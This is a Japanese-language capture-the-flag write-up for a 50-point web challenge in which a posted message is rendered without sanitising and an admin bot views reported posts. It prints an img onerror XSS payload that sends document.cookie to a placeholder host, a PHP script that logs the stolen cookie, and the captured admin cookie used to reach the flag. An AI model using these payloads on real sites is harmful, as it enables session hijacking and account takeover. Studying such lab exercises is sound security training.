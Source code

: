 # Xmas Still Stands:Web:50pts
You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?  

# Solution
文字列をPostし、それを表示するWEBアプリケーションであるようだ。  
Home  
[site1.png](site/site1.png)  
Post  
[site2.png](site/site2.png)  
Report  
[site3.png](site/site3.png)  
Admin  
[site4.png](site/site4.png)  
さらに管理人にReportすることでそのPostを削除させることができる。  
AdminページよりXSSで管理人のcookieを盗めばよい。  
問題の頭文字もXSSである。  
```javascript
<script>alert("actf")</script>
```
をPostしてみるが、alertが表示されないのでonerrorを使用する。  
```javascript
<img src="1" onerror="alert('actf');">
```
無事alertが表示されたので、以下のようなスクリプトを仕込みAdminに削除させる。  
```javascript
<img src="1" onerror="location.href = 'http://www.xxxxx.xxx/hack.php?cookie=' + document.cookie;">
```
今回はphpを以下のように記述した(アクセスログを見るのもよい)。  
```php:hack.php
<?php
$URI = $_SERVER['REQUEST_URI'];
echo $URI;
$fp = fopen("hack.txt", "w");
fwrite($fp, $URI);
fclose($fp);
?>
```
表示されたPostのIDをReportの後、hack.txtに以下のcookieが保存されていた。  
```text:hack.txt
/hack.php?cookie=super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=John
```
これを自身のブラウザに設定してやる。  
```javascript
<img src="1" onerror="document.cookie = 'super_secret_admin_cookie=hello_yes_i_am_admin; path=/';">
<img src="1" onerror="document.cookie = 'admin_name=John; path=/';">
```
せっかくXSSがあるならば使おう。  
するとAdminページにflagが表示される。  
Admin_flag  
[flag.png](site/flag.png)

## actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}